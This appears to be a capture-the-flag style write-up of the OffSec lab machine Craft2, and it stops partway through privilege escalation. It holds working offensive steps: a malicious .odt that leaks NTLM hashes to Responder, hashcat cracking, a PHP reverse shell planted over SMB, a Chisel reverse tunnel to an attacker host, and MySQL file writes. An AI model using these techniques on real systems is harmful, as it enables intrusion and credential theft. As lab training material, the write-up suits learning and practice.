# Craft2

There was another machine called Craft. I do not have the writeup here but the basic structure was that there was only one port open (80) and it held a website that had a resume upload portal taking .odt files. It was possible to upload a resume.odt with a malicious macro set up to auto-run when the document opened. The macro could be loaded with a simple PowerShell reverse shell command inside a `Shell()` call. This got the foothold. From there it was a lateral movement to the Apache service account. This account had `SeImpersonatePrivilege` so it was just PrintSpoofer to `SYSTEM`.

The tagline for this machine is "sometimes a new path is needed" which makes me think this will not be so simple.

## Enumeration

Started with a full Nmap TCP SYN scan:


```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-15 15:47 MDT
Nmap scan report for craft2.offsec (192.168.247.188)
Host is up (0.052s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: Craft
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
49666/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-15T21:50:20
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   51.06 ms x.x.x.1
2   51.04 ms x.x.x.254
3   52.14 ms 192.168.251.1
4   52.40 ms craft2.offsec (192.168.247.188)
```


### Port 80

The landing page is exactly the same as the old one:

<figure><figcaption><p>Landing page on port 80</p></figcaption></figure>

#### Phishing

The resume submission form is still there:

<figure><figcaption><p>Upload screen</p></figcaption></figure>

I at least have to try ODT phishing. I create my document and upload it only to be disheartened immediately:

<figure><figcaption><p>Phishing with a malicious .odt is out</p></figcaption></figure>

It seems this is what is going to be different. I try uploading a simple PHP reverse shell but it seems they are checking file types:

<figure><figcaption><p>File type error message</p></figcaption></figure>

I was hoping the Login Admin would be something but it is actually just a JavaScript alert:

<figure><figcaption><p>No actual URL under-the-hood</p></figcaption></figure>

#### CeWL

I throw together a quick wordlist with CeWL and then start feroxbuster with it:

<figure><figcaption><p>Generating a web enumeration wordlist with CeWL</p></figcaption></figure>

#### feroxbuster

I then run that wordlist through `feroxbuster` with the command:


```bash
feroxbuster -L 20 -w ./enumeration/web_enum.txt -k -x @ferox_extensions.txt -C 404 -E -r -u http://craft2.offsec -o ./enumeration/p80.feroxbuster
```


#### whatweb

```bash
whatweb --color=never http://craft2.offsec > ./enumeration/p80.whatweb
```

```
http://craft2.offsec [200 OK]
    Apache[2.4.48],
    Bootstrap,
    Country[RESERVED][ZZ],
    Email[admin@craft.offs],
    HTML5,
    HTTPServer[Apache/2.4.48 (Win64)
    OpenSSL/1.1.1k PHP/8.0.7],
    IP[192.168.247.188],
    OpenSSL[1.1.1k],
    PHP[8.0.7],
    Script,
    Title[Craft],
    X-Powered-By[PHP/8.0.7]
```

### Port 135

I use `rpcdump` but do not find any [notable RPC interfaces](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc#notable-rpc-interfaces). I also attempt to use `rpcclient` but anonymous login is not allowed:

<figure><figcaption><p>RPC Enumeration</p></figcaption></figure>

### Port 445

I try anonymous SMB login but it fails, `smbmap` does not reveal anything, `crackmapexec` finds the `guest` account is disabled:

<figure><figcaption><p>SMB Enumeration</p></figcaption></figure>

I also tried an anonymous `enum4linux` run but there was nothing valuable there either:

<figure><figcaption></figcaption></figure>

## Foothold

In the web directory enumeration I found the `/uploads` directory is accessible externally:

<figure><figcaption><p>Externally-accessible uploads directory</p></figcaption></figure>

I now suspect this to be a false flag. It turns out the file filter can be confused by a double extension (e.g. `shell.php.odt`) and allowed the upload of PHP but it could not be executed as the file would just be downloaded when accessed from a browser or `curl`. I suspect the Apache config has PHP disabled for this directory. The double extension trick only worked if .odt was the ending. I think the upload.php page is checking the last occurrence of `.xxx` with RegEx.

### LibreOffice Exploit

It seems the only entrance is via this upload form though. So since I cannot run macros in the .odt, and I cannot upload PHP and trick the system into executing it I look into exploits. Probably should have started here and saved myself a bunch of time but hindsight is 20/20. Searchsploit turns up something interesting when searched for "`odt`" or "`Open Office`":

<figure><figcaption><p>Potentially interesting exploit</p></figcaption></figure>

Once I take a look at its explanation it is even more promising. The comment explains it generates a `.odt` file that will allow theft of an NTLM hash

<figure><figcaption><p>Exploit description in py file</p></figcaption></figure>

This strikes me as a similar idea to what was done with [`ntlm_theft` in Vault](vault.md#ntlm\_theft), except instead of uploading a malicious `.lnk` file (from `ntlm_theft`) via SMB, a malicious `.odt` file will be crafted and uploaded via the website.

#### Crafting .odt

I create the `.odt` file with the exploit. I had to rewrite it from python2 to python3 because the ezodf (library used by exploit) library was installed by pip only for python3. Once I worked this out I ran the exploit and it created a file called `bad.odt`.

I then set up `responder` with the command:

```bash
sudo responder -I tun0 -v
```

I then upload my `bad.odt` file to the resume portal and wait. After a couple minutes I have a hash:

<figure><figcaption><p>Capturing the hash with responder</p></figcaption></figure>

### Cracking the Hash

I put the hash into a file called `thecybergeek.ntlmv2` and crack it with hashcat:


```bash
hashcat -m 5600 -w 3 -o thecybergeek.cracked ./thecybergeek.ntlmv2 /usr/share/wordlists/rockyou.txt
```


It cracks quickly to `thecybergeek:winniethepooh`.

### Using the Credentials

I first decide to check the credentials with crackmapexec for SMB. I am able to validate them successfully:

<figure><figcaption><p>Shares available with credentials</p></figcaption></figure>

Unfortunately the WinRM port (`5985`) was not open on this machine so that does not seem like a likely way in.

I see one non-default share (`WebApp`) which I decide to look at with smbclient. Almost immediately I recognize the file structure as that of the application on port 80. I decide to try putting a reverse shell (called `rs.php`) into the directory and accessing it from outside. I place the file via `smbclient` with the `put` command. Then I start a listener and browse to `http://craft2.offsec/rs.php` either via a browser or `curl`. This triggers the shell which can be seen being caught in the screenshot below:

<figure><figcaption><p>Placing the shell and catching it</p></figcaption></figure>

Interactive user access achieved as user `apache`.

## Privilege Escalation

I start with the obvious groups/permissions checks for the current user via `whoami /all`:

<figure><figcaption><p>apache user</p></figcaption></figure>

The fact that it is a member of `SERVICE` is interesting, as is its `High` token.

The machine does not appear to be domain-connected as when I ran net user /domain it errored. So I will start with just a `PEAS` scan.

I was not allowed to copy or run from external SMB shares on this machine. An organization policy prevented it so instead I downloaded the tools via HTTPS.

I started with winPEAS:


Out of curiosity I checked the permissions of the user `thecybergeek` whose credentials were originally compromised. They seem to be worse than `apache`'s so I do not think that is a route forward:

<figure><figcaption><p>Worse permissions than what I currently have</p></figcaption></figure>

Eventually I am taking a look at the network connections and I notice the MySQL port (3306) is listening:

```sh
netstat -ano
```

<figure><figcaption><p>All network connections</p></figcaption></figure>

This was not visible from the outside so it is likely only available via the internal port. I will need to set up a proxy to access it.

### Setting Up Chisel Proxy

I decide to use [`chisel`](https://github.com/jpillora/chisel) for this since it is a stable and easily usable tool. I have demonstrated it in [another section](../../attack-vectors/port-forwarding-and-tunneling/tunneling-through-dpi/http-tunneling/chisel.md) but this use will be slightly modified. I grab the appropriate version of chisel from the [releases page](https://github.com/jpillora/chisel/releases/tag/v1.9.1) and host it via HTTP. After transferring it to the victim I am ready to set up the proxy. The proxy will need to be a reverse proxy to get the victim machine to initiate the connection through any firewall.

#### Chisel Server

I begin by setting up the server portion of the proxy. Because it is a reverse proxy the server is on my Kali machine. I launch it with the command:


```bash
chisel server --port 8080 --reverse
```


<figure><figcaption></figcaption></figure>



```sh
.\chisel.exe client x.x.x.234:8080 R:1234:127.0.0.1:3306
```


* `client` specifies it is the client mode
* `R` specifies a reverse proxy with the configuration following the colons
* `1234:127.0.0.1:3306` sets up the proxy on port `1234` of the server (my Kali machine) and forwards traffic to `127.0.0.1:3306` which is the internal interface of the victim where MySQL lives

The client setup is successful:

<figure><figcaption><p>Chisel client connection</p></figcaption></figure>

<figure><figcaption><p>Connection seen from server side</p></figcaption></figure>

### Using the Proxy

At this point I can just send traffic destined for the victim to port `1234`. So since I want to work with MySQL I will login with the command:

```
mysql -h 127.0.0.1 -P 1234 -u root -p
```

* Default credentials for MySQL are `root` and no password so that is where I start. Had this failed I probably would have tried `hydra` against the port

<figure><figcaption><p>Successful database connection</p></figcaption></figure>

I see the `phpmyadmin` and remember that there was a `403` error on the `phpmyadmin` page in the `feroxbuster` output in the [initial enumeration](craft2.md#feroxbuster). I wonder if I can access it the same way. I set up a second proxy tunnel to port 1235 (keeping the original at 1234 active):

<figure><figcaption><p>Second connection to chisel server</p></figcaption></figure>

I can then navigate to the internal interface of the target via my browser. I head to `http://127.0.0.1:1235/phpmyadmin` and see the default `phpmyadmin` page. The service seems to be running as `root`.

<figure><figcaption><p>phpmyadmin page viewed through chisel proxy</p></figcaption></figure>

At this point a plan begins to form. MySQL can be used to write to a file (`INTO DUMPFILE`). Since the service is running as root perhaps I can write some malicious code as a privileged user and use that to elevate privileges.

### Writing Files via MySQL

To test this out I just write a simple `test.txt` file in a location I know I can read it with my `apache` shell:

<figure><figcaption><p>Writing a test file via MySQL</p></figcaption></figure>

When I run `icacls` against it I can see it has Administrator privileges due to the `(F)` permission for `Administrators`:

